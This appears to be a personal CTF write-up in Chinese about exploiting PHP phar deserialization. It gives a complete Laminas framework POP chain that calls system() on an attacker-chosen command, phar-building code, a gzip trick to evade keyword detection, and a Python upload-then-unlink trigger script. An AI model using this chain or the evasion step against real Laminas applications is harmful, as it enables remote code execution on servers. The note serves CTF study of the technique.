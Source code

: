 tags:: [[CTF/PHP/Phar]]

- # 思路
	- phar反序列化，上传文件处上传phar，然后unlink触发
- # phar反序列化
	- 抄的大佬的Laminas RCE POP链，之后可以搜`xxx popchain`找相关框架的popchain
		- 话说phpggc真的是干啥啥不行，laminas的链只有删除的能用
		- https://xz.aliyun.com/t/8975#toc-10
		- ```php
		  <?php 
		  
		  namespace Laminas\View\Resolver{
		  	class TemplateMapResolver{
		  		protected $map = ["setBody"=>"system"];
		  	}
		  }
		  namespace Laminas\View\Renderer{
		  	class PhpRenderer{
		  		private $__helpers;
		  		function __construct(){
		  			$this->__helpers = new \Laminas\View\Resolver\TemplateMapResolver();
		  		}
		  	}
		  }
		  
		  
		  namespace Laminas\Log\Writer{
		  	abstract class AbstractWriter{}
		  	
		  	class Mail extends AbstractWriter{
		  		protected $eventsToMail = ["sleep 10"];	//  cmd  cmd cmd
		  		protected $subjectPrependText = null;
		  		protected $mail;
		  		function __construct(){
		  			$this->mail = new \Laminas\View\Renderer\PhpRenderer();
		  		}
		  	}
		  }
		  
		  namespace Laminas\Log{
		  	class Logger{
		  		protected $writers;
		  		function __construct(){
		  			$this->writers = [new \Laminas\Log\Writer\Mail()];
		  		}
		  	}
		  }
		  
		  namespace{
		  $a = new \Laminas\Log\Logger();
		  $phar = new Phar("phar.phar"); //后缀名必须为 phar
		  $phar->startBuffering();
		  $phar->setStub("XXX<?php XXX __HALT_COMPILER(); ?>"); 
		  $phar->setMetadata($a); //将自定义的 meta-data 存入 manifest
		  $phar->addFromString("a", str_repeat('123',1000000)); //添加要压缩的文件
		  //签名自动计算
		  $phar->stopBuffering();}
		  ?>
		  
		  ```
	- 然后用`gzip phar.phar`压缩一下，绕过关键词检测
	- 最后触发
		- ```python
		  r = base_post(url + "/album/imgupload", files = {
		      "image-file": ("p.jpg", content)
		  })
		  path = r.text.partition("<!DOCTYPE html>")[0]
		  print(path)
		  r = base_post(url + "/album/imgdelete", data = {
		      "imgpath": f"phar://{path}/b.jpg"
		  })
		  print(r.text)
		  
		  ```